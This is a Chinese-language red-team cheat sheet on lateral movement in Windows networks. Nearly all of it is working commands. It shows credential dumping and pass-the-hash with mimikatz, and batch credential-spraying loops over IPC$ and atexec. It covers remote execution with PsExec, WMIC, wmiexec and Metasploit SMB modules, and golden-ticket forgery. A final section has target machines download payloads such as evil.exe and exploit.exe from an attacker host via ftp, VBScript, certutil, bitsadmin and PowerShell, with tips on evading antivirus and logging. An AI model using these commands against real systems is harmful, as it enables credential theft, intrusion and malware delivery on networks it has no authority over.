

# 内网横向

- 学习资料
  - [内网渗透之PTH&PTT&PTK](https://www.cnblogs.com/bmjoker/p/10355979.html)
  - [PTH攻击总结](https://blog.csdn.net/systemino/article/details/106366929)
  - [1earn](https://github.com/No-Github/1earn/blob/8026439435b6bb2f2d37cec07b577d24b49a783c/1earn/Security/RedTeam/OS%E5%AE%89%E5%85%A8/Windows%E5%AE%89%E5%85%A8.md)


### 工作组

#### **横向渗透at&IPC$ 明文上线**

- ipc$
  - IPC$(Internet Process Connection) 是共享 "命名管道" 的资源，它是为了让进程间通信而开放的命名管道，可以通过验证用户名和密码获得相应的权限, 在远程管理计算机和查看计算机的共享资源时使用。

- 条件
  - 必须开启 139 和 445 端口.一般通过账号密码可以登录对应权限的目标共享文件夹。如果是管理员就会访问到 `C$`默认共享文件夹。可以使用 `net share` 查看共享的文件夹。


- 报错集锦

```bash
# 建立IPC常见的错误代码
（1）5：拒绝访问，可能是使用的用户不是管理员权限，需要先提升权限
（2）51：网络问题，Windows 无法找到网络路径
（3）53：找不到网络路径，可能是IP地址错误、目标未开机、目标Lanmanserver服务未启动、有防火墙等问题
（4）67：找不到网络名，本地Lanmanworkstation服务未启动，目标删除ipc$
（5）1219：提供的凭据和已存在的凭据集冲突，说明已建立IPC$，需要先删除
（6）1326：账号密码错误
（7）1792：目标NetLogon服务未启动，连接域控常常会出现此情况
（8）2242：用户密码过期，目标有账号策略，强制定期更改密码

# 建立IPC失败的原因
（1）目标系统不是NT或以上的操作系统
（2）对方没有打开IPC$共享
（3）对方未开启139、445端口，或者被防火墙屏蔽
（4）输出命令、账号密码有错误

```


**开启ipc$**

net share ipc$

**开启admin$**

net share admin$

**连接和上线命令**

```bash
net use \\server\ipc$"password" /user:username # 工作组
net use \\server\ipc$"password" /user:domain\username #域内
dir \\xx.xx.xx.xx\C$\                # 查看文件列表
copy \\xx.xx.xx.xx\C$\1.exe 1.exe  # 下载文件
copy 1.bat \\xx.xx.xx.xx\C$  # 复制文件
net use \\xx.xx.xx.xx\C$\1.exe /del  # 删除IPC
net view xx.xx.xx.xx                # 查看对方共享
at \\IP 时间 c:\1.exe    #添加计划任务
# 等待上线即可
```

**PSEXEC**

方法是 先建立IPC通道连接，然后直接使用，具体操作如下：

```bash
net use \\192.168.0.1\ipc$ “password” /user:administrator # 同上 建立连接
psexec.exe \\192.168.0.1 cmd                   # 进入半交互式cmdshell

# 另一种是在psexec的参数中指定账户密码
psexec.exe \\192.168.0.1 –u administrator –p password
```


**横向渗透明文/HASH传递 atexec-impacket**

```bash
atexec.exe ./administrator:Admin12345@192.168.xx.xx "whoami" # 直接执行命令
atexec.exe god/administrator:Admin12345@192.168.xx.xx "whoami" # 域
atexec.exe -hashes :ccef208c6485269c20db2cad21734fe7 ./administrator@192.168.xx.xx "whoami" # 传递HASH
```

**横向渗透明文/HASH传递批量利用-**

```bash
FOR /F %%i in (ips.txt) do net use \\%%i\ipc$ "admin!@#45" /user:administrator #批量检测IP对应明文连接
FOR /F %%i in (ips.txt) do atexec.exe ./administrator:admin!@#45@%%i whoami  #批量检测IP对应明文有回显
FOR /F %%i in (pass.txt) do atexec.exe ./administrator:%%i@192.168.xx.xx whoami #批量检测明文对应IP 有回显
FOR /F %%i in (hash.txt) do atexec.exe -hashes :%%i ./administrator@192.168.xx.xx whoami #批量检测HASH对应IP回显版
```


### 域

#### **域/工作组横向-PTH传递**

- PTH(pass the hash)
  - PTH在内网渗透中是一种很经典的攻击方式，原理就是攻击者可以直接通过LM Hash和NTLM Hash访问远程主机或服务，而不用提供明文密码。
  - PTH不能算作一种漏洞。而是可以算作一种技巧。利用获得的用户 HASH 去直接连接相同域的其他用户的电脑或者共享文件夹。尝试通过这样的方法横向碰撞出不同的机器。


**mimikatz**

- (工作组)通过 pth 进行远程登录(cmd)
```bash
mimikatz.exe privilege::debug

mimikatz.exe privilege::debug "sekurlsa::pth /user:用户名  /domain:目标机器IP  /ntlm:密码哈希"

mimikatz.exe privilege::debug "sekurlsa::pth /user:win10 /domain:192.168.1.1 /ntlm:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"
```

- (域)通过 pth 进行远程登录(cmd)

```bash
mimikatz.exe privilege::debug
mimikatz.exe sekurlsa::logonpasswords

mimikatz.exe privilege::debug "sekurlsa::pth /domain:目标机器的域 /user:目标机器的用户名 /ntlm:用户名对应的hash"

mimikatz.exe privilege::debug "sekurlsa::pth /user:win10 /domain:test.com /ntlm:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"
```


- 通过 pth 进行远程登录(RDP)

```bash
# 管理员权限下执行以下命令:
mimikatz.exe privilege::debug "sekurlsa::pth /domain:目标机器的域 /user:目标机器的用户名 /ntlm:用户名对应的hash /run:mstsc.exe /restrictedadmin"
```


**PStools**

在启动`psexec`建立连接后，远程系统上会被安装一个服务:`psexecsv`c，安装服务会留下日志，而且psexec推出时有可能服务删除失败，所以`不推荐使用psexec`

当利用exe文件时：

`psexec.exe \\ip –accepteula -u username -p password `

当添加到环境变量时：

`psexec.exe \\ip  -u username -p password program.exe`


**WMIC**

那么有没有一款工具可以代替 `psexec` 呢，当然有，这里介绍一下 `WMIC`,由一组强大的工具集合组成，用于管理本地或远程的 Windows 系统。但Windows系统默认不会再日志中记录这些操作，可以做到无日志，攻击脚本无需写入到磁盘，增加了隐蔽性。

`wmic /node:host /user:administrator /p 密码 process call create “c:\windows\temp\foobar.exe”`


**wmiexec**

使用VBS脚本调用WMI来模拟 psexec 的功能，于是乎WMIEXEC 就诞生了。 推荐使用 `wmiexec` 进行远程执行命令。

- 首先你可能需要rdp上去才能看到返回的值，打开个shell窗口。

`wmiexec.exe -hashes 00000000000000000000000000000000:e20e81c5c06ccf288474c581f13423xx test.com/Administrator@192.168.91.xxx "whoami"`

``

> 抓取的LM hash是AAD3开头的，或者是No Password之类的，计用32个0代替LM hash


**Metasploit：smb_login**

`Metasploit`有一个`auxiliary`辅助模块，可以通过SMB登录到网络中。这个模块需要设置一些选项。我们准备用用户名和hash字典，在信息收集阶段，我们已经收集了很多用户名和hash，制作成了字典，用于此次攻击，攻击完成后，就可以跑出有效的用户名和hash组合，可以在网络中登录到某台主机。

```bash
use auxiliary/scanner/smb/smb_login
set rhosts 192.168.1.105
set user_file user.txt
set pass_file pass.txt
set smbdomain ignite
exploit
```

**Metasploit：psexec**

开启msf后，直接搜索PsExec，然后use一下密码字段我们直接传递hash值.

```bash
use exploit/windows/smb/psexec
set rhosts 192.168.1.105 # ip
set smbuser administrator # 用户名
set smbdomain ignite # 域名
set smbpass 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 # hash
exploit
```

**Metasploit：psexec_command**

msf中还有一个psexec_command模块，这个模块可以在远程机器上执行命令。

使用效果也很简单，往上加数据就行了

```bash
use admin/smb/psexec_command
set rhosts 192.168.1.105
set subdomain ignite
set smbuser administrator
set smbpass 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38
set command whoami # 执行命令
run
```

[**impacket**](https://github.com/SecureAuthCorp/impacket)

安装impacket 所需模块

```bash
git clone https://github.com/CoreSecurity/impacket.git
cd impacket/
python setup.py install
cd impacket/examples
```


#### **ptk**

可以理解为 域控打了 `KB2871997` 补丁后通过 aes256 也可以通过验证。可以理解为将抓取到的 ntlm hash 替换成 aes256进行身份验证。

**mimikatz**

```bash
# 获取用户的 aes key
mimikatz "privilege::debug" "sekurlsa::ekeys"

# 注意查看 aes256_hmac 和 aes128_hmac

mimikatz "privilege::debug" "sekurlsa::pth /user:test /domain:test.com /aes256:c4388a1fb9bd65a88343a32c09e53ba6c1ead4de8a17a442e819e98c522fc288"
```


### PTT

#### **ms14-068**


#### **Golden_Tickets**

黄金票据

需要先抓到 某个域控管理员的账号`hash`和`sid`,通过mimikatz 伪造黄金票据在低权限的用户上也能访问到其他用户。

1. dump hash

```bash

privilege::debug
lsadump::lsa /patch

或

mimikatz.exe "privilege::debug” "sekurlsa::logonpasswords" "exit" > log.txt

# 生成一个回显输出。
```

2. 使用 mimikatz 伪造的黄金票据：

```bash
kerberos::golden /user:<用户名> /domain:<域名> /sid:<域SID> /krbtgt:<Hash> /ticket:test.kiribi

# 示例

kerberos::golden /user:administartor /domain:test.com /sid:S-1-5-21-1112871890-2494343973-3486175548-500 /krbtgt:e20e81c5c06ccf288474c581f13423b9 /ticket:test.kiribi
```



3. 利用 `mimikatz` 的 `kerberos::ptt` 将黄金票据 test.kiribi 注入到内存中：


```bash
# 清除缓存的票据
kerberos::purge

# 注入黄金票据 test.kiribi
kerberos::ptt test.kiribi

# 列出票据
kerberos::list
```


尝试访问任意 IP 的c目录。 发现访问成功。

尝试挂载到自己盘下执行成功。


# windows LOL

## 文件传输

攻击主机：kali      目标机器:windows/linux

### tftp

基于udp,端口为69

攻击机起tftp:
mkdir /tftp
atftpd --daemon --port 69 /tftp
cp /usr/share/windows-binaries/nc.exe /tftp/
chown -R nobody /tftp

目标机:
tftp -i kali-ip GET nc.exe


### ftp

攻击机:
apt-get install pure-ftpd
```setup-ftp
#!/bin/bash

groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd username -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
/etc/init.d/pure-ftpd restart
```
./setup-ftp(输入要设置的密码)
```ftp-commands
echo open kali-ip 21> ftp.txt
echo username>> ftp.txt
echo password>> ftp.txt
echo bin >> ftp.txt
echo GET evil.exe >> ftp.txt
echo bye >> ftp.txt
ftp -s:ftp.txt
```
把ftp-commands文件中的内容粘贴到目标机的远程shell上去运行

目标机上传文件(连接状态):
ftp> put target.exe(如果是windows且文件在其他盘,需使用绝对路径)

关闭ftp:
/etc/init.d/pure-ftpd stop

攻击机使用python起ftp:
apt-get install python-pyftpdlib
mkdir /ftp
cd /ftp/
python -m pyftpdlib -p 21
此时目标机连接的时候,用户名为anonymous,密码随意


### vbscript

```wget-vbs
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo strFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```
攻击机起http服务:
cp exploit.exe /var/www/
service apache2 start

在目标机执行wget-vbs中的命令,会生成wget.vbs
目标机执行:
dir wget.vbs
cscript wget.vbs http://kali-ip/exploit.exe (要下载的文件)exploit.exe(保存成的文件名)


### bitsadmin

系统要求 >= Windows Vista
bitsadmin /transfer down /download /priority normal "http://www.xxx.com/xxx.exe" "F:\1.exe"


### certutil

建议先执行一遍 certutil,再执行下方命令(可能可以绕火绒、360等杀软)
certutil -urlcache -split -f http://www.xxx.com/xxx.exe 1.exe


### powershell

同样,攻击机起http服务
```powershell-download
echo $storageDir =$pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://kali-ip/exploit.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```
在目标机执行powershell-download中的命令,会生成wget.ps1
目标机执行:
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1


